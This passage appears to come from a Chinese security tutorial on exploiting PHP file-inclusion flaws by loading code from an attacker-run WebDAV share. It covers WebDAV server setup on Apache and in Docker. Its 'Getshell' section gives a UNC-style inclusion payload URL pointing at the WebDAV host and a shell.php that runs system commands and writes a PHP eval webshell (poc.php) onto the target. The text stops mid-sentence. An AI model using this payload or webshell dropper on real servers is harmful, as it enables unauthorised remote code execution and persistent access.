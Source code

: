 
（6）重新启动Apache服务器，以使更改生效

```
sudo service apache2 restart
```

成功重新启动Apache服务器后，尝试访问WebDAV共享并确保WebDAV服务器不要求凭据。

[![](https://p4.ssl.qhimg.com/dm/1024_442_/t01c492239f593deccb.png)](https://p4.ssl.qhimg.com/dm/1024_442_/t01c492239f593deccb.png)

除了上面在Ubuntu上一步步安装WebDAV服务器外，还可以利用做好的Docker镜像。

**2、WebDAV Docker镜像**

推荐使用Docker镜像方式去安装利用，免去一些因环境或配置不当而产生的问题

（1）拉取webdav镜像

镜像地址：`https://hub.docker.com/r/bytemark/webdav`

（2）用docker启动一个webdav服务器

```
docker run -v ~/webdav:/var/lib/dav -e ANONYMOUS_METHODS=GET,OPTIONS,PROPFIND -e LOCATION=/webdav -p 80:80 --rm --name webdav bytemark/webdav
```

（3）在`~/webdav/data`目录里面共享自己php脚本

[![](https://p5.ssl.qhimg.com/t0178d4c4d257b121bb.png)](https://p5.ssl.qhimg.com/t0178d4c4d257b121bb.png)

（5）验证Webdav服务器

浏览器验证

[![](https://p4.ssl.qhimg.com/dm/1024_331_/t019b3de12774882155.png)](https://p4.ssl.qhimg.com/dm/1024_331_/t019b3de12774882155.png)

终端验证

[![](https://p3.ssl.qhimg.com/dm/1024_191_/t01f51b649ae0394eed.png)](https://p3.ssl.qhimg.com/dm/1024_191_/t01f51b649ae0394eed.png)

<a class="reference-link" name="Getshell"></a>**Getshell**

在环境都配置完且验证之后，利用`webdav`目录`~/webdav/data`中共享的WebShell进行GetShell
- `类unc-&gt;payload`
```
http://127.0.0.1/FI/index.php?file=//172.17.0.2//webdav/shell.php
```
- `shell.php`
```
&lt;?php echo eval(system("whoami"));phpinfo();?&gt;
&lt;?PHP fputs(fopen('poc.php','w'),'&lt;?php @eval($_POST[Qftm])?&gt;');?&gt;
```

为什么这个不能直接加载一句话木马呢，因为使用PHP文件包含函数远程加载Webdav共享文件时，不能附加消息(GET/POST)，但是我们可以自定义`shell.php`，通过服务器加载远程`shell.php`给我们自动生成一个`Webshell`。

请求构造的payload
